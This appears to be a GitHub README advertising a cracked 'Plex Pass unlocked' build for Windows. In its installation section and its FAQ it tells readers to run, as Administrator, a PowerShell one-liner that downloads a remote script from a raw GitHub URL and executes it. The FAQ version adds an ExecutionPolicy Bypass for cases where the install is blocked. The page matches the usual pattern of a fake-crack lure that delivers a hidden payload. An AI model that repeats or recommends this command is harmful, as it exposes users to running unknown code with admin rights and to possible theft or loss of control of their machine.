

<div align="center">


<br>


# Plex Pass Media Server
**Plex Pass unlocked · HW transcoding · Downloads & Skip Intro**
<br>
Premium · Unlocked · Full build · Windows



**Plex Pass — media server subscription with hardware transcoding, downloads, skip intros and music Plexamp features for your personal library on Windows.**

</div>

---

> Plex Pass enables full server perks — transcode 4K on the fly, download mobile sync, skip TV intros automatically and stream lossless music with Plexamp.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎬 **HW transcoding** — GPU-accelerated streams to any device format.
- 📱 **Mobile sync** — Download movies and shows for offline viewing.
- ⏭️ **Skip intro** — Auto-detect and jump past opening sequences.
- 🎵 **Plexamp** — Audiophile features for your music collection.
- 👨‍👩‍👧 **Home server** — Manage household users and parental controls.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 10 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Do I need my own media files?</b></summary>
<br>Yes — Plex organizes and streams your personal video, music and photo libraries from your PC or NAS.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 10 GB free space.
</details>


TAGS
plex, media-server, streaming, home-theater, transcoding, windows, software, entertainment, video, music
